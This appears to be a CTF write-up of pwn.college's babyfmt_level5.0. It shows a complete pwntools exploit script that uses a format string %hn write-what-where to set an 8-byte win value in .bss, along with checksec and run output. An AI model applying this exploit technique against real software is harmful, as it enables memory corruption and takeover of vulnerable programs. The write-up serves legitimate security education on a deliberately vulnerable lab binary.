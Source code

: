 ```yaml
---
title: "Write-What-Where - 8 bytes"
description: ""
author: "İsmail BOZKURT"
date: 2025-08-19
tags:
  - binary-exploitation
  - format-string-attack
  - pwn
  - CTF
categories:
  - Exploitation
  - Pwn
  - Format-String-Attack
---
```


## Format String Attack - Write-What-Where - 8 bytes

This variant includes 8 bytes **write-what-where**

Steps same as before. nothing to mentioned specially here.

### babyfmt_level5.0

```css
root@56972fd7d79f:/host# checksec babyfmt_level5.0 
[*] '/host/babyfmt_level5.0'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

When run the binary without doing anything special.

```perl
root@56972fd7d79f:/host# ./babyfmt_level5.0 
###
### Welcome to ./babyfmt_level5.0!
###

This challenge reads in some bytes, calls printf on that string, and allows you to perform
a format string attack. Through this series of challenges, you will become painfully familiar
with the concept of Format String Attacks!

This challenge allows you to make a 256-sized format string.

This challenge requires you to set a win value, located in the .bss, to 0x82802f819c27a46a. If you successfully
pull that off, the challenge will give you the flag! You will need to use %n to set this value
Moreover, since the win value is so large, you will need to use several %hn writes rather than an %ln.

The win value in the .bss is located at 0x4040f8! Remember to write this in little endian in your format string.
Remember, you can swap %n with %lx to see what address you will be writing into to make sure you have the.correct offset.

I will now read up to 256 bytes. Send your data!
asd
Received 4 bytes!

I will now call printf on your data!

asd

And now, let's check the win value!
Checking win value...
... desired win value: 0x82802f819c27a46a
... written win value: 0
... INCORRECT!
### Goodbye!
```

#### The offset and padlen values

Previous script will constantly using the get these values. 

```perl
[DEBUG] Received 0x102 bytes:
    b'Received 33 bytes!\n'
    b'\n'
    b'I will now call printf on your data!\n'
    b'\n'
    b'aaaabaaacaaadaaaeaaaSTART0x6161616261616161END\n'
    b"And now, let's check the win value!\n"
    b'Checking win value...\n'
    b'... desired win value: 0x82802f819c27a46a\n'
    b'... written win value: 0\n'
    b'... INCORRECT!\n'
    b'### Goodbye!\n'
[*] Found format string offset: 38
[+] User input starts at  : 38
[+] Needed pads           :0
[+] Numbwritten           :0
```

#### get_flag.py

Nothing fancy here. FmtStr class make life really easier. Excellent library pwntools <3.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './babyfmt_level5.0')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
b *func+467
continue
'''.format(**locals())

# -- Exploit goes here --

def get_win_address_and_value(text):
    match = re.findall(rb"0x[0-9a-fA-F]+", text)
    if match:
        return match
    return None

def send_fmt(payload):
    io.sendafter(b'Send your data!\n', payload)


io = start()

#### get win_value and win_address ####
leaks = get_win_address_and_value(io.recvuntil(b'offset.'))
desired_val = int(leaks[0], 16)
win_addr    = int(leaks[1], 16)

info(f'Desired Value: {desired_val:#x}')
info(f'Win Address  : {win_addr:#x}')

#### write win_value at win_address ####
offset = 38
padlen = 0

f = FmtStr(send_fmt, offset=38, padlen=0, numbwritten=padlen)
f.write(win_addr, desired_val)
f.execute_writes()


success(io.recv())

io.interactive()
```

**The result:**

```perl
And now, let's check the win value!
Checking win value...
... desired win value: 0x82802f819c27a46a
... written win value: 0x82802f819c27a46a
... SUCCESS! Here is your flag:
pwn.college{skd**************************EzW}
### Goodbye!
```

## References 

- **glibc Manual – Formatted Output**  
    [https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html](https://www.gnu.org/software/libc/manual/html_node/Formatted-Output.html)

- **man 3 printf** (POSIX specifiers, positional args, `%n`)  
    [https://man7.org/linux/man-pages/man3/printf.3.html](https://man7.org/linux/man-pages/man3/printf.3.html)

- **CERT C – FIO30-C: Exclude user input from format strings**  
    [https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings](https://wiki.sei.cmu.edu/confluence/display/c/FIO30-C.%2BExclude%2Buser%2Binput%2Bfrom%2Bformat%2Bstrings)

- **MITRE CWE-134 – Externally-Controlled Format String**  
    [https://cwe.mitre.org/data/definitions/134.html](https://cwe.mitre.org/data/definitions/134.html)

- **Pwntools Documentation – Format String Exploits**  
    [https://docs.pwntools.com/en/stable/fmtstr.html](https://docs.pwntools.com/en/stable/fmtstr.html)

- **Pwntools Source – `fmtstr_payload` Implementation**  
    [https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027](https://github.com/Gallopsled/pwntools/blob/dev/pwnlib/fmtstr.py#L1027)

- **Exploit Education – Format String Vulnerabilities**  
    [https://exploit.education/phoenix/format-string/](https://exploit.education/phoenix/format-string/)

- **CTF 101 – Format String Vulnerability**  
    [https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

- **pwn.college – Format String Exploits**  
    [https://pwn.college/software-exploitation/format-string-exploits](https://pwn.college/software-exploitation/format-string-exploits)

- **Classic Paper – Exploiting Format String Vulnerabilities (scut/Team TESO)**  
    [https://cs155.stanford.edu/papers/formatstring-1.2.pdf](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

- **OWASP – Format String Attack**  
    [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)

- **LiveOverflow CTF Video – Format String Basics**  
    [https://www.youtube.com/watch?v=0WvrSfcdq1I](https://www.youtube.com/watch?v=0WvrSfcdq1I)
